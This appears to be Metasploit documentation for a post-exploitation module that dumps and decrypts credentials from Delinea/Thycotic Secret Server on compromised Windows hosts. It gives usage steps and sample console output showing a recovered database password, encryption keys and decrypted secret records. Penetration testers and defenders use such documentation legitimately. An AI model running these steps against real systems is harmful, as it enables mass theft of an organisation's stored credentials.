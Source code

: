 This module exports and decrypts Secret Server credentials to a CSV file; it is intended as a
post-exploitation module for Windows hosts with Delinea/Thycotic Secret Server installed. Master
Encryption Key (MEK) and associated IV values are decrypted from `encryption.config` using a 
static key baked into the software; there is also support for encryption configs configured with
Windows DPAPI MachineKey protection. The module contains two actions, `dump` and `export`, the
former extracts the encrypted Secret Server database and performs decryption, and the latter
allows the encryption keys and encrypted database to be plundered for later offline decryption
in situations where expedience is necessary.

This module incorporates original research published by the authors of SecretServerSecretStealer,
a PowerShell script designed to harvest Secret Server credentials. The GitHub repo for
SecretStealer.ps1 includes tons of notes on the internals of Secret Server:

https://github.com/denandz/SecretServerSecretStealer

## Vulnerable Application
This module has been tested against Secret Server versions 8.4 through 11.2, though it may work on
earlier versions. It is intended to be run after successfully exploiting a Windows host with the
Delia/Thycotic Secret Server software installed. The module supports decryption of configuration
files that have been protected by Windows DPAPI, but does not support extraction of any secrets
if the system is configured with a Hardware Security Module (HSM).

## Verification Steps
This is a post module and requires a meterpreter session on the Microsoft Windows server host
with a configured instance of Delinea/Thycotic Secret Server installed.

1. Start msfconsole
2. Get session on Secret Server host via method of choice and background it
3. Do: `use post/windows/gather/credentials/thycotic_secretserver_dump`
4. Do: `set session <session>`
5. Do: `dump` to extract and decrypt the Secret Server database, or `export` to extract the encrypted database only

## Options

### SESSION

Which session to use, which can be viewed with `sessions -l`

## Scenarios
Windows Server 2019 host running Secret Server 11.2 using the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > dump

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer
[+]     Database User: sa
[+]     Database Pass: !-TUwX!_-gD-wak-cugyU-0GX0$vL-evYG2
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: fc35d1abcade1c180c699e10fbb3efeb
[+]     KEY256: e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
[+]         IV: 2c2df1a68dbc29adc66041bd6e6e4ad3
[*] Performing export and decryption of Secret Server SQL database
[*] Export Secret Server DB ...
[+] 47842 rows exported, 19915 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829112535_default_10.1.0.113_thycotic_secrets_288749.txt
[+] 47842 rows loaded, 19915 unique SecretIDs
[*] Process Secret Server DB ...
[-] SecretID 1395 field 'Notes' failed to decrypt
[-] SecretID 2050 field 'Notes' failed to decrypt
[-] SecretID 2506 field 'Notes' failed to decrypt
[-] SecretID 2549 field 'Notes' failed to decrypt
[-] SecretID 2558 field 'Notes' failed to decrypt
[-] SecretID 2566 field 'Notes' failed to decrypt
[-] SecretID 2567 field 'Notes' failed to decrypt
[-] SecretID 2583 field 'Notes' failed to decrypt
[-] SecretID 3393 field 'Notes' failed to decrypt
[-] SecretID 4060 field 'Notes' failed to decrypt
[!] SecretID 4092 field 'SFTP Site' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 4103 field 'Notes' failed to decrypt
[-] SecretID 4174 field 'Notes' failed to decrypt
[-] SecretID 4625 field 'Notes' failed to decrypt
[-] SecretID 5393 field 'Notes' failed to decrypt
[-] SecretID 5647 field 'Notes' failed to decrypt
[-] SecretID 6018 field 'Notes' failed to decrypt
[-] SecretID 6250 field 'Notes' failed to decrypt
[-] SecretID 6263 field 'Notes' failed to decrypt
[-] SecretID 6657 field 'Notes' failed to decrypt
[-] SecretID 9169 field 'Notes' failed to decrypt
[-] SecretID 10577 field 'Notes' failed to decrypt
[-] SecretID 10777 field 'Notes' failed to decrypt
[!] SecretID 11097 field 'Notes' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 11319 field 'Notes' failed to decrypt
[-] SecretID 11973 field 'Notes' failed to decrypt
[-] SecretID 11974 field 'Notes' failed to decrypt
[-] SecretID 11997 field 'Notes' failed to decrypt
[!] 47842 rows processed (26 rows failed)
[*] 45117 rows recovered: 34479 plaintext, 10638 decrypted (2699 blank)
[*] 45117 rows written (2699 blank rows withheld)
[+] 19836 unique SecretID records recovered
[+] Decrypted Secret Server Database Dump: /root/.msf4/loot/20220829112547_default_10.1.0.113_thycotic_secrets_357639.txt
[*] Post module execution completed
msf6 post(multi/gather/thycotic_secretserver_dump) > 
```

Windows Server 2019 host running Secret Server 11.2 using the `export` action:
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > export

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer_112E
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: 376f80b25053d74afcc321837442ddc9
[+]     KEY256: 5b0f4d7d2d89c180b62c64b881072d4cf2b6fd0487c9d4438050a4734a3ece19
[+]         IV: d933b2ad66c785891d4bc916cebdde15
[*] Performing export of Secret Server SQL database to CSV file
[*] Export Secret Server DB ...
[+] 3 rows exported, 1 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829113427_default_10.1.0.113_thycotic_secrets_175194.txt
[*] Post module execution completed